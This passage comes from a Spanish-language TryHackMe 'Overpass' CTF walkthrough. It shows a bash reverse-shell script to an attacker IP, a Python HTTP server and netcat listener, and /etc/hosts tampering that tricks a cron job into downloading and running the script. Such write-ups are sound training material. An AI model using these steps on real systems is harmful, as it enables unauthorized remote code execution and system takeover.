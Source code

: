 Vemos que el domino `overpass.thm` apunta a la 127.0.0.1 y además tenemos permisos de escritura sobre dicho archivo; por lo tanto, primero debemos crearnos un archivo llamado `buildscript.sh` que lo guardaremos en la ruta `downloads/src/` dentro de nuestra máquina de atacante. Dicho archivo contendrá una reverse shell:

```bash
❯ pwd
/home/k4miyo/Documents/TryHackMe/Overpass/content/downloads/src
❯ ll
.rwxr-xr-x root root 53 B Fri Jun 23 22:48:32 2023  buildscript.sh
❯ cat buildscript.sh
───────┬─────────────────────────────────────────────────────────────
       │ File: buildscript.sh
───────┼─────────────────────────────────────────────────────────────
   1   │ #!/bin/bash
   2   │ 
   3   │ bash -i >& /dev/tcp/10.9.85.95/443 0>&1
───────┴─────────────────────────────────────────────────────────────
```

Ahora nos posicionamos en donde se encuentra la carpeta `downloads` y compartimos un servidor HTTP con python:

```bash
❯ pwd
/home/k4miyo/Documents/TryHackMe/Overpass/content
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Nos ponemos en escucha por el puerto 443:

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Y ahora, en la máquina víctima cambiamos la dirección IP del dominio `overpass.thm` por nuestra dirección IP de atacante:

```bash
james@overpass-prod:/dev/shm$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.9.85.95 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
james@overpass-prod:/dev/shm$
```

Esperamos a que se ejecute el proceso:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.30.247 - - [25/Jun/2023 15:52:01] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
```
